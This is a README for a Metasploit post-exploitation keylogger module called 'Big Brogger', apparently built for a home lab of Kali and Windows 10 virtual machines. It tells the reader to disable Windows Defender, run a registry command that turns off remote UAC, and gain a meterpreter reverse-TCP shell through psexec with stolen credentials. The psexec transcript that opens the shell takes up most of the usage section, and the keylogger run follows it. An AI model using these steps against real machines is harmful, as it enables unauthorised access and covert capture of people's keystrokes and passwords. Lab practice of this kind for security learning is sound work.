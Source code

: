 # Big Brogger
A Metasploit module that captures keystrokes on compromised Windows machines.

## Requirements
- Kali Linux virtual machine with Metasploit
- Windows 10 virtual machine

## Getting Started
Before attacking, you need to install and make the Windows machine vulnerable. You can find a guide to help you [here](https://medium.com/@bmatth21/how-to-setup-windows-10-vm-lab-for-hacking-608592d550f2).

You also need to disable the Windows Defender real-time protection in `Windows Security > Virus & threat protection > Real-time protection`

Finally, you need to disable the remote UAC by opening a terminal as administrator and type the following command:
```
REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

## How to use
This a post module so you will have to get access to the Windows machine. You can do it by any means but we will use `windows/smb/psexec` in Metasploit for the demonstration.

First, use psexec to get a session with a valid credential:
```
msf > use windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/smb/psexec) > set RHOST 10.0.2.15
RHOST => 10.0.2.15
msf exploit(windows/smb/psexec) > set SMBUser admin
SMBUser => admin
msf exploit(windows/smb/psexec) > set SMBPass admin
SMBPass => admin
msf exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 10.0.2.4:4444
[*] 10.0.2.15:445 - Connecting to the server...
[*] 10.0.2.15:445 - Authenticating to 10.0.2.15:445 as user 'admin'...
[*] 10.0.2.15:445 - Selecting PowerShell target
[*] 10.0.2.15:445 - Executing the payload...
[*] Sending stage (175686 bytes) to 10.0.2.15
[+] 10.0.2.15:445 - Service start timed out, OK if running a command or non-service executable...
[*] Meterpreter session 1 opened (10.0.2.4:4444 -> 10.0.2.15:49870) at 2024-03-23 22:38:49 +0100

meterpreter >
```

Then, you can background the meterpreter session and run the keylogger:
```
msf6 exploit(windows/smb/psexec) > use xtests/big_brogger
msf6 post(xtests/big_brogger) > set SESSION 1
SESSION => 1
msf6 post(xtests/big_brogger) > run

[*] Migrating to explorer.exe...
[+] Successfully migrated to explorer.exe.
[*] Keylogger started...
```

To exit, simply press `Ctrl+C`.